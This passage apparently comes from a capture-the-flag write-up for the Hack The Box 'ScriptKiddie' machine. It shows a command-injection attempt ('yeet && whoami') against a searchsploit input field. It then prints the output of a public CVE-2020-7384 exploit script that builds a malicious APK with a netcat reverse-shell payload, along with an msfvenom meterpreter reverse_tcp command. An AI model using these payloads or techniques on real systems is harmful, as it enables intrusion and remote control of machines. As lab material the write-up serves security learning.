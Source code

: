The last inputbox was kinda interesting since it uses searchsploit, and the only thing I have to put in is a keyword for that tool, so I tried to concatnate command in such a fashion:



```
Search: yeet && whoami
```


Though the maker of this box are not born yesterday so the feedback of the server was as following:

```
> #### stop hacking me - well hack you back
```

Thats when I decided to see what the upload button does. It has the following text above it:

> #### venom it up - gen rev tcp meterpreter bins


That made me think of msfvenom, the dropdown gave me options for linux, windows and android. So after some googling I found [this vulnerabilty](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). Which is followed up by [this exploit.](https://github.com/nikhil1232/CVE-2020-7384) So I gave the exploit a try, make sure you install openjdk-11-jdk via apt:

```
root@kali:/home/kali/Desktop/HTB/machines/scriptkiddie# bash ./CVE-2020-7384.sh

CVE-2020-7384

Enter the LHOST: 
10.10.14.35

Enter the LPORT: 
7070

Select the payload type
1. nc
2. bash
3. python
4. python3

select: 1

Enter the Directory (absolute path) where you would like to save the apk file (Hit Enter to use the current directory): 

  adding: emptyfile (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

New APK file Generated
Location: "/home/kali/Desktop/HTB/machines/scriptkiddie/exploit.apk"

The APK file generated could be now uploaded or used for exploitation

If you have access to the vulnerable machine then run:
msfvenom -x <your newly created apk> -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

```